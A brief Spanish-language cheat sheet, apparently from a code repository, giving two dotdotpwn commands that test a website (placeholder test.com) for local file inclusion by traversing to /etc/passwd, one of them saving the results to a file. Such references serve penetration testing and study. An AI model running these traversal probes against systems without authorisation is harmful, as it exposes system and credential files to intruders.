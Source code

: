 ### Revisar si un sitio web es vulnerable a LFI:
`$ dotdotpwn -m http-url -d 10 -f /etc/passwd -u "http://test.com?lang=TRAVERSAL" -b -k "root:"`
### Revisar si un sitio web es vulnerable a LFI y guardarlo en un archivo:
`$ dotdotpwn -m http-url -d 10 -f /etc/passwd -u "http://test.com?lang=TRAVERSAL" -b -k "root:" -r {OUTPUT.txt}